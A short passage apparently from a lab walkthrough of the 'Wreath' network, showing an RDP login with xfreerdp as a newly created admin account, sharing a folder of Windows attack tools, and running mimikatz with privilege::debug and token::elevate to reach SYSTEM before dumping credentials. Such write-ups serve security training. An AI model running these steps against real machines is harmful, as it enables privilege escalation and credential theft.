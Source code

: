 We have our own profile with Admin privilege, now we can login using RDP or winrm.

we will be connecting using RDP with windows exploits tool its made easy.

```
xfreerdp /v:10.200.90.150 /u:munaz /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

![](/Images/wreath/Screenshot-2021-04-07-160727-1024x780.png)

tool folder also shared, we can run mimikatz and dump credential. open cmd as administrator and run following command.

```
\\tsclient\share\mimikatz\x64\mimikatz.exe     #start mimikatz
 
privilege::debug #
token::elevate   #debug privilege and elevate to our intergrity to SYSTEM level
```
